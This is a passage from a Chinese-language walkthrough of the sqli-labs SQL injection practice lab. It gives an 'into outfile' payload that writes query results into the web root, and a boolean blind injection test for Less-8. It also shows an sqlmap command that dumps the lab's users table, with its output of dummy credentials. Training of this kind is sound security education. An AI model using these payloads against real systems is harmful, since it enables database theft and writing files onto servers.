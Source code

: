 接着把`and`条件去掉，改成`into outfile '/var/www/html/dump.txt'`，完整 payload：`?id=1')) into outfile '/var/www/html/dump.txt';--%20`

> **注意：**docker方式部署请注意，MySQL 镜像默认启用了 `--secure-file-priv` 选项，这个选项会禁用 `select .. into outfile|dumpfile`，使注入的SQL执行失败。
>
> **注意：**docker-compose 方式部署的 sqli-labs 如果把 MySQL 和 PHP+Apache 分开部署，即使`select ... into outfile ...` 成功，也无法直接通过 HTTP 方式下载，这一利用也无法继续下去。

上述注入如果成功的话可以直接访问 `http://localhost:8080/dump.txt` 下载到查询结果了。

## Less-8 Blind Boolian

题目是布尔盲注。确认 SQL 注入类型：`?id=1' and 1=1;--%20`。

![image-20220510144442127](image-20220510144442127.png)

典型的盲注，不自己动手了，接下来直接上 sqlmap。

```bash
sqlmap -u 'http://localhost/Less-8/?id=1' --technique B -p id -T users --dump
```

```
Database: security
Table: users
[13 entries]
+------+----------+------------+
| id   | username | password   |
+------+----------+------------+
| 1    | Dumb     | Dumb       |
| 2    | Angelina | I-kill-you |
| 3    | Dummy    | p@ssword   |
| 4    | secure   | crappy     |
| 5    | stupid   | stupidity  |
| 6    | superman | genious    |
| 7    | batman   | mob!le     |
| 8    | admin    | admin      |
| 9    | admin1   | admin1     |
| 10   | admin2   | admin2     |
| 11   | admin3   | admin3     |
| 12   | dhakkan  | dumbo      |
| 14   | admin4   | admin4     |
+------+----------+------------+
```

